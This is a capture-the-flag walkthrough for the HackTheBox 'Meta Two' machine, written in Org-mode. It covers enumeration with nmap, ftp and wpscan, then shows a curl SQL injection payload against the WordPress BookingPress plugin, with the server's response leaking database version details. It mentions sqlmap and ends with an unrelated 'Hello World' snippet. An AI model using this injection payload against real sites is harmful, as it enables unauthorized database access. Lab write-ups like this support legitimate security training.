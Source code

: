 #+title: Meta Two

** Connection and nmap
First we connect to the openvpn that HTB provides us and spin the machine
Then we will use nmap, as usual for enumeration:

#+begin_src shell
sudo nmap -sC -sV -T4 10.10.11.186
#+end_src

#+RESULTS:

The options are following:
-sC: to use the default scripts
-sV: probes the open ports for system information
-T4: to define the aggressiveness of the scan

** First steps

We can gather that there are 3 open ports: 21 (ftp), 22 (ssh) and 80 (http).

The version of OpenSSH that is being used does not seem to be vulnerable but
we can try other things such as connecting through ftp:
#+begin_src shell
ftp 10.10.11.186
#+end_src

#+RESULTS:

and trying to log as anonymous. This does not work.

So we are left with the http service which we know that is nginx/1.18.0 and the
hostname is http://metapress.htb/.

We then have to go to /etc/hosts and append the ip and hostname using any text
editor.
This allows us to open the hostname in the browser without any problem.

Of course this is true for Linux (which you probably should be using), in Windows is
a little more complicated and I struggled to be able to do this the first time. I
tried to change the host file in System32, then flush the dns and nothing worked.
Finally I simply installed firefox in WSL2 Kali and I use VcXsrv to view all GUI
apps.

One way or another we should be able to browse the page now.

** Looking for vulnerabilities

We can look at the source code and it does not seem to be leaking any credentials
but we can see it's a Wordpress site. We can play around with the forms and
explore a little. Now we will use wpscan which is a command line tool for Wordpress
security.

#+begin_src shell
wpscan --url http://metapress.htb
#+end_src

#+RESULTS:

You can look them up in https://wpscan.com/wordpress/562 and go through each of
them but if we go back to the source code of the events page we can see that is
using a plugin called Bookingpress and filter our search. In the same page we
can see that there is a SQL injection vulnerability and a proof of concept.  In
the curl command that is provided we can see that is taking advantage of
Wordpress nonces, which we can look in the source code such as the one in the
generateSpamCatcha function.

There is a lot of information there but the first thing that catches the eye is
the fact that is telling us that the version of Wordpress (5.6.2) is identified
as insecure. So we will look for the vulnerabilities associated with this version.

So the command we have to use would look like something like this:
#+begin_src shell
curl -i 'http://metapress.htb.com/wp-admin/admin-ajax.php'--data
'action=bookingpress_front_get_category_services&_wpnonce=1b624223cc&category_id=29&total_service=-7507)
UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,-5,-5,-5,-5,-5,-5--
-'
#+end_src

#+RESULTS:

You should replace the nonce with the one that you can find in the source code, and the output will be like this:

#+begin_quote
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 23 Mar 2023 07:08:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
#+end_quote

Now we can use sqlmap, which is a tool for automating the process of detecting
and exploiting SQL injection vulnerabilities. We can use it to identify the
database management system, enumerate databases, tables and columns, extract the
data and even run commands.

#+begin_src python :results output :wrap "comment"
print("Hello World")
#+end_src

#+RESULTS:
#+begin_comment
Hello World
#+end_comment
